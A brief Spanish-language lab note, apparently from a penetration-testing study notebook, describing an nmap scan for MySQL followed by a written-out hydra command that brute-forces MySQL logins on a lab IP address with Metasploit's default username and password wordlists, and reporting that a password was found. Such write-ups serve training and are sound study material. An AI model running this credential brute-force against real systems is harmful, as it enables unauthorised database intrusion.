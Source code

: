 Hacemos un reconocimiento con nmap para saber por donde está corriendo la base de datos MySQL:
![[Pasted image 20230727155853.png]]
Lo haríamos con este comando:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.119.223.3 mysql
```
Y nos encuentra la contraseña:
![[Pasted image 20230727160938.png]]
